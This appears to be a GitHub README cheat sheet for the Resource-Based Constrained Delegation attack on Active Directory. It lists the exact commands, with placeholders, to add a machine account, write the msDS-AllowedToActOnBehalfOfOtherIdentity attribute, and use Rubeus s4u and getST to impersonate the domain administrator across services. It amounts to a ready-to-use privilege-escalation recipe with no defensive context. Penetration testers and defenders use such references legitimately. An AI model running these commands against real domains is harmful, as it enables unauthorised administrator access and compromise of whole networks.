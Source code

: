 # Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - rbcd.py -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn host/DC_FQDN 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator --dc-ip DC_IP (Get TGT ticket)
